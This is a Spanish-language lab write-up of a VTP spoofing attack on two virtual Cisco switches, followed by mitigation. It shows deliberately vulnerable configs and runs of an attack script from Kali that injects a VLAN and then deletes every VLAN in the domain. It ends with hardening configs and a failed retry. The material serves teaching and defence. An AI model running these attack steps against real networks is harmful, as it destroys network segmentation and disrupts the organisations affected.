🔑 Seguridad de Redes — Laboratorios
====================================


# VTP Attack — Creación e Inyección de VLAN

Ataque de spoofing sobre VLAN Trunking Protocol (VTP) ejecutado desde un host atacante (Kali) conectado a un puerto trunk del dominio VTP, suplantando un servidor legítimo para inyectar una VLAN no autorizada y, posteriormente, eliminar todas las VLANs del dominio.

## Topología



**Dispositivos:**

| Rol | Dispositivo | IOS/Imagen |
|---|---|---|
| Atacante | Kali Linux | eth0 → Gi0/0 Switch1 |
| Switch víctima 1 | Switch1 | `vios_l2-adventerprisek9-m.ssa.high_iron_20200929.qcow2` |
| Switch víctima 2 | Switch2 | `vios_l2-adventerprisek9-m.ssa.high_iron_20200929.qcow2` |

## Configuración inicial (vulnerable)

VTP domain compartido en modo `server`, versión 1, sin password, trunks con `allowed vlan all` en ambos switches.

**Switch1**
```
enable
configure terminal
hostname Switch1
!
vtp domain ITLA
vtp version 1
vtp mode server
no vtp password
!
vlan 10
 name VICTIMAS_A
exit
vlan 20
 name VICTIMAS_B
exit
vlan 30
 name IT
exit
!
interface GigabitEthernet0/0
 description Conexion-Kali-ATACANTE
 switchport trunk encapsulation dot1q
 switchport mode trunk
 switchport trunk native vlan 1
 switchport trunk allowed vlan all
 no shutdown
exit
!
interface GigabitEthernet0/1
 description Enlace-a-Switch2
 switchport trunk encapsulation dot1q
 switchport mode trunk
 switchport trunk native vlan 1
 switchport trunk allowed vlan all
 no shutdown
exit
!
end
write memory
```

**Switch2**
```
enable
configure terminal
hostname Switch2
!
vtp domain ITLA
vtp version 1
vtp mode server
no vtp password
!
vlan 10
 name VICTIMAS_A
exit
vlan 20
 name VICTIMAS_B
exit
vlan 30
 name IT
exit
!
interface GigabitEthernet0/0
 description Enlace-a-Switch1
 switchport trunk encapsulation dot1q
 switchport mode trunk
 switchport trunk native vlan 1
 switchport trunk allowed vlan all
 no shutdown
exit
!
end
write memory
```

## Línea base

**Switch1**




**Switch2**




Ambos switches sincronizados (mismo MD5 digest, revision 13, VLANs 10/20/30 activas).

## Ataque — Inyección de VLAN 400 (GITHUB)

Script `vtp-atacks.py` (automatización sobre Yersinia) desde Kali, opción **1. Agregar una VLAN**.

```
$ sudo python3 vtp-atacks.py
Interfaz conectada a SW1 [eth0]: eth0
Opción [5]: 1
ID de VLAN [845]: 400
Nombre de VLAN [LAB]: Github
Ejecutando ataque 3: agregar VLAN 400 (GITHUB)
Enviando VTP request...
```



### Verificación del ataque

**Switch1**




**Switch2**




Kali (`10.13.58.1`) se posicionó como updater del dominio VTP. La VLAN 400 se propagó a ambos switches sin acceso directo a la consola de ninguno.

## Ataque destructivo — Borrado total de VLANs

Mismo script, opción **3. Borrar TODAS las VLANs**.

```
$ sudo python3 vtp-atacks.py
Opción [5]: 3
¿Borrar TODAS las VLANs? (s/N) [n]: s
Ejecutando ataque 1: borrar TODAS las VLANs
```



### Verificación

**Switch1**




**Switch2**




VLANs 10, 20, 30 y 400 eliminadas en ambos switches. Pérdida total de segmentación L2 en el dominio VTP a partir de un único punto de inyección.

## Mitigación

Restauración de VLANs, autenticación de dominio VTP, cambio a modo `transparent` y hardening del puerto de acceso del atacante.

**Switch1**
```
enable
configure terminal
!
vlan 10
 name VICTIMAS_A
exit
vlan 20
 name VICTIMAS_B
exit
vlan 30
 name IT
exit
!
vtp password Vtp2025-1367!
vtp mode transparent
!
interface GigabitEthernet0/0
 switchport mode access
 switchport access vlan 999
 switchport nonegotiate
 spanning-tree portfast
 spanning-tree bpduguard enable
exit
!
end
write memory
```

**Switch2**
```
enable
configure terminal
!
vlan 10
 name VICTIMAS_A
exit
vlan 20
 name VICTIMAS_B
exit
vlan 30
 name IT
exit
!
vtp password Vtp2025-1367!
vtp mode transparent
!
end
write memory
```

### Verificación de mitigación

**Switch1**




**Switch2**




El mismatch de MD5 digest entre switches es el resultado esperado en modo transparent: cada switch mantiene su base de VLANs local e independiente y ya no confía en advertisements VTP entrantes.

## Reintento del ataque (con mitigación activa)

```
$ sudo python3 vtp-atacks.py
Opción [5]: 1
ID de VLAN [845]: 300
Nombre de VLAN [LAB]: Mitigacion
Ejecutando ataque 3: agregar VLAN 300 (MITIGACION)
Enviando VTP request...
```



### Verificación final

**Switch1**




**Switch2**




VLAN 300 no aparece en ninguno de los dos switches. El ataque fue neutralizado.

## Tabla comparativa

| Indicador | Antes de mitigación | Después de mitigación |
|---|---|---|
| VTP Operating Mode | Server | Transparent |
| VTP Password | Sin configurar | `Vtp2025-1367!` |
| Configuration Revision aceptada desde Kali | Sí (13→14→1) | No (permanece en 0) |
| VLAN inyectada por atacante | Sí (VLAN 400 / GITHUB) | No (VLAN 300 rechazada) |
| Borrado remoto de VLANs | Sí (VLANs 10/20/30/400 eliminadas) | No aplicable (transparent no procesa cambios) |
| Puerto Gi0/0 (hacia Kali) | Trunk, allowed vlan all | Access, VLAN 999, nonegotiate, bpduguard |
| Propagación de cambios VTP entre Switch1/Switch2 | Sí | No |

## Conclusión

El modo VTP `server` sin autenticación permite a cualquier dispositivo conectado a un puerto trunk suplantar un servidor legítimo, inyectar VLANs arbitrarias o eliminar la base de VLANs completa del dominio, con propagación automática a todos los switches que comparten el mismo dominio. La combinación de `vtp mode transparent`, autenticación por password y hardening del puerto de acceso (access mode + nonegotiate + bpduguard) neutraliza el vector de ataque sin depender únicamente de la autenticación VTP, que es susceptible a fuerza bruta sobre el hash MD5 capturado.
